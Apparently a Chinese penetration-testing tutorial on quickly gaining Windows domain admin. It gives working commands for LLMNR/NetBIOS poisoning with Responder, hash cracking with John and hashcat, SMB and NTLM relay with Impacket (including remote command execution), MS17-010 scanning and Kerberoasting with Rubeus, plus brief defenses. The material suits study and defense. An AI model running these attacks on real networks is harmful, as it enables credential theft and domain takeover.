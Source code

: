 # 快速在内部网络上获得域管理员的五种方式-老套路

## 讲在前面：

以笔者的的渗透测试经历来看，某些企业的内部网络竟然会不安全到笔者都怀疑，当然这也不足为奇，在建设域环境之初就使用默认配置，未及时安装补丁或没有采取基本的防御措施，虽然有时候渗透测试人员必须努力一点才能获得对内部域网络的访问权限，在此笔者列出国外研究者列出的快速获取域管理员的五种方式

**注意：**

列表例子仅作为学习参考和加强防守，未对以下漏洞进行风险评级。

## **Netbios和LLMNR投毒**

**攻击原理：**

NetBIOS和LLMNR这两个协议对于没有DNS的工作站系统来说是很有帮助的，使其对网络上的主机请求进行响应，但同时这也为攻击者提供了可趁之机。问题出在当人们输入不存在的、包含错误的或者DNS中没有主机名时，本机就会使用这两个协议在网络上搜索对应的主机。这些协议的本质定义了本地网络上的任何主机都可以回答请求。作为攻击者，我们能够做到代替网络上任何不存在的主机回答请求，并诱骗用户来搜索我们。

使用kali的Responder集成工具。kali默认安装

```text
responder -I eth0 -f      #-I指定使用的网卡，-f允许攻击者查看受害者的主机指纹
```

![](https://img-blog.csdnimg.cn/20201005133951317.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

开启毒化，靶机端只要随便输入不能解析的名称即可。

![](https://img-blog.csdnimg.cn/20201005134048797.png)

可以看到，kali上已经收到了靶机的NTLMv2的hash值，该值被存放到了/usr/share/responder/logs/ 目录下

![](https://img-blog.csdnimg.cn/20201005134212412.png)

![](https://img-blog.csdnimg.cn/20201005133401203.png)

破解密码可以尝试使用johnthe ripper进行破解NTLMv2，kali默认已安装，启动命令：

```text
john SMBv2-NTLMv2-SSP-10.80.0.111.txt
```

![](https://img-blog.csdnimg.cn/20201005134605682.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

**防御措施**

为了防止在局域网内遭到NetBIOS名称欺骗和LLMNR欺骗攻击，可以考虑关闭NetBIOS和LLMNR服务。不过在关闭这些服务以后，可能用户的一些正常需求会受到影响。

## **中继攻击**

在尝试中继攻击时，笔者比较喜欢使用impacket工具包，稳定可靠，有人维护，而何乐而不为？

### **smb中继**

这个模块最初由cDc发现并将其用于SMB中继攻击。对于接收到的每个连接，它将选择下一个目标并尝试中继凭证。另外它将首先根据连接到我们的客户机进行身份验证。脚本是通过调用SMB和HTTP服务器，连接到指定函数，然后使用smbclient部分来实现的。它应该可以在任何LM兼容级别上工作。

其中一种方法：

使用RunFinger.py脚本扫描域内机器的SMB签名的开放情况：

```text
python RunFinger.py  -i 10.80.0.1/24
```

![](https://img-blog.csdnimg.cn/2020100513551367.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)  
修改responder配置然后启动即可

![](https://img-blog.csdnimg.cn/20201005135817755.png)![](https://img-blog.csdnimg.cn/20201005135838476.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

开启relay

```text
python MultiRelay.py  -t 10.80.0.111 -u ALL
```

在域内主机上传递一个smb流量：

![](https://img-blog.csdnimg.cn/20201005140328351.png)

这里笔者未能显示回来数据，使用纯净环境进行实验即可。

impacket方法：

```text
./smbrelayx.py -h <Client2 IP> -c Command
```

![](https://img-blog.csdnimg.cn/20201005140539504.png)

这里笔者未能显示回来数据，使用纯净环境进行实验即可。

使用MSF内置smbrelay模块也可以。这里参考：[中继攻击](https://blog.csdn.net/whatday/article/details/107698383#SMB%20Relay%EF%BC%88SMB%E4%B8%AD%E7%BB%A7%EF%BC%89%E6%94%BB%E5%87%BB)

**防御**：

阻止这种攻击的唯一方法是执行服务器SPN检查和或签名。如果针对目标的身份验证成功，则针对本地smbserver设置客户端身份验证成功以及有效的连接。设置本地smbserver功能由用户决定。一种选择是设置与受害者认为连接到有效SMB服务器的任何文件的共享。所有这些都是通过smb.conf文件或编程方式完成的。

### **ntlm中继**

NTLM身份验证是基于质询-响应的协议。质询响应协议使用通用的共享机密（在本例中为用户密码）对客户端进行身份验证。服务器发送质询，客户端对这个质询进行回复。如果质询与服务器计算的质询匹配，则接受身份验证。NTLM身份验证是一个复杂的协议，在这里它是如何简化的。可以在[http://davenport.sourceforge.net/ntlm.html](http://davenport.sourceforge.net/ntlm.html)上找到非常好的详细说明。简单的来说：在上述情况下可以直接用现有的 hash 去尝试重放指定的机器

```text
 ./ntlmrelayx.py -t <指定的被攻击 IP> 
```

```text
 ./ntlmrelayx.py -t smb://192.168.52.143 -c whoami -smb2support   *利用-c选项来在目标主机上面执行命令：*
```

这里不赘述已有的方法，国内已有十分优秀的实用文章进行介绍：：[中继攻击](https://blog.csdn.net/whatday/article/details/107698383#SMB%20Relay%EF%BC%88SMB%E4%B8%AD%E7%BB%A7%EF%BC%89%E6%94%BB%E5%87%BB)

## [MS17-010](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS17-010/ms17_010_eternalblue.rb)

这个漏洞的危害之大，影响范围之广在这里就不进行赘述了，即使到今天，也依然是在内网渗透必不可缺的方式之一，我很惊讶于居然还有企业没给自己的计算机安装对此漏洞的补丁。

可以使用nmap的探测脚本：

```text
nmap --script smb-vuln-ms17-010 192.168.1.1  探测永痕之蓝
```

笔者这里不展开介绍各式各类的利用MS17-010的脚本、方法。包括但不限于powershell，go，py，MSF,CS插件等等都可以利用

## Kerberoasting

这里参考该文章：国内优秀研究员对此进行了非常形象生动的描述：[kerberoasting](https://3gstudent.github.io/%E5%9F%9F%E6%B8%97%E9%80%8F-Kerberoasting/)

利用的过程：

1. 查询SPN，找到有价值的SPN，需要满足以下条件：
   * 该SPN注册在域用户帐户\(Users\)下
   * 域用户账户的权限很高
2. 请求TGS
3. 导出TGS
4. 暴力破解

实验环境下：

先在Administrator账户下注册一个SPN服务

```text
setspn.exe -U -A VNC/DC1.test.com Administrator
```

请求TGS

```text
$SPNName = 'MSSQLSvc/DC1.test.com'Add-Type -AssemblyNAme System.IdentityModelNew-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

使用Rubeus导出

```text
Rubeus.exe kerberoast
```

使用hashcat破解的参数如下：

```text
hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```

## **mitm6**

**笔者在复现该漏洞时发现国内并没有一个文章是在国外研究得基础上进行深入的说明的，故笔者这里留空，待笔者研究一番后再次更新**

